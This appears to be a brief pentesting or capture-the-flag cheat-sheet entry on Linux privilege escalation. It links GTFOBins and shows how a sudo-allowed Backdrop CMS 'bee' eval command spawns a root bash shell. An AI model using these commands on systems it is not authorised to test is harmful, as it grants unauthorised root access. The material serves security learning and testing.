 ```bash
sudo -l
```
#### [GTFOBins](https://gtfobins.github.io)

https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html

```
#BackDrop CMS 
sudo bee eval "system('/bin/bash');"

#In case of `The required bootstrap level for 'eval' is not ready.` Error
#Find the application path  - generally in /var/www/html
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"
```